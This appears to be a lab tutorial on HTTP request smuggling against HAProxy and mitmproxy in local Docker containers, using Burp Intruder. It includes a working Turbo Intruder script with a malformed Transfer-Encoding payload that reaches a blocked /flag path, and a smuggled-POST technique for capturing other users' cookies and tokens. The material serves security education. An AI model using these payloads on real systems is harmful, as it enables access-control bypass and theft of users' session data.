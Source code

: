 
We bypassed frontend restrictions and accessed flag in backend.
But can we exploit others?

Actually it is really easy to understand that.

Let's test haproxy first:
Send the following request to intruder and choose null payloads & indefinitely.

![[Images/5.5 Exploit Connections/req_1.png]]

Start the attack! Get your phone and visit http://ip:8001/
Try reloading one or two times! You will see flag downloaded!

Here it how it looks like:
![](../Images/3.5%20HTTP%20Request%20Smuggling/server_side_0.png)

Same thing but in mitmproxy:

![[Images/5.5 Exploit Connections/req_2.png]]

Uncheck update content-length.
Then start attack go to http://ip:8002/

Did it work?
If your docked instance crashed, just restart it (you can also restart spesific service too)

```
sudo docker compose down && sudo docker compose up -d
```

Could you even get 200? It was probably very unstable,  let's change connection pool setting to make it reliable first:

![[Images/5.5 Exploit Connections/req_3.png]]

(Uncheck 'Update Content-Length' and ensure 'Connection Reuse' is enabled. Scroll down to find the option.)

Start attack and watch, can you get 200's? (flags)

This is expected behaviour.
![](../Images/5.5%20Exploit%20Connections/expected.png)
Now go to http://ip:8002

Does it work?

No? What is the reason?

![](../Images/3.5%20HTTP%20Request%20Smuggling/server_side_1.png)

Frontend server creates a tcp connection/tunnel, each data must be send in same connection so they can affect each other.
In our case that is not possible, but it was possible in haproxy.
Even though you can't exploit others in this scenario we already bypassed proxy rule (/flag).

How to do that in turbo intruder extension:

```
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint="http://192.168.1.113:8002",
                           concurrentConnections=1,
                           engine=Engine.THREADED
                           )

    req_attack = """GET /404 HTTP/1.1
Host: we_do_not_need_host
content-length: 4
Transfer-Encoding: heyyy! chunked

31
GET /flag HTTP/1.1
Host: we_do_not_need_host


0

"""
    req_normal = """GET /something HTTP/1.1\r\n\r\n"""

    for i in range(1):
        engine.queue(req_attack)
        engine.queue(req_normal)


def handleResponse(req, interesting):
    table.add(req)

```

you can use \r\n too.

Let's go back to haproxy example.
How do you exploit someone who is using the same connection with the backend as you are?

You can try to smuggle a JavaScript file.  
When a client requests `/index.js`, you can redirect them to your site to fetch `/malicious.js`.  
However, this approach is not very reliable—you might need several attempts.  
And what happens if the backend doesn’t accept your Host header?

You need more than that!

James Kettle and many researchers have demonstrated various exploitation methods.
For example:
```
POST /profile HTTP/1.1\r\n
Host: unhackablesite.test123\r\n
Cookie: notsecret123
Content-Length: 400\r\n
\r\n
username=
```
Imagine you've performed HTTP request smuggling and sent the data to the backend.  
The backend will wait for the rest of the request (since we set the `Content-Length` header to 400).  
But you send nothing!  
If everyone is using the same connection and you've successfully smuggled that request into the backend, you just need to sit and wait.

Some user will send a request:

```
GET /home HTTP/1.1\r\n
Cookie: notsecret123
Secret: secrettoken
Host: unhackablesite.test123\r\n\r\n
```

In backend:
```
POST /profile HTTP/1.1\r\n
Host: unhackablesite.test123\r\n
Cookie: notsecret123
Content-Length: 400\r\n
\r\n
username=GET /home HTTP/1.1\r\n
Cookie: notsecret123
Secret: secrettoken
Host: unhackablesite.test123\r\n\r\n
```
Note: You need to choose the `Content-Length` header carefully—not too large, not too small."

In the end, your username will be replaced by the victim's request (there's a lab about this in portswigger)

We haven't even touched on HTTP/2 desynchronization or h2c attacks yet.  
There are many, _really_ many attack vectors to explore.

If you ever get bored:
scholar.google.com/scholar?q=http+request+smuggling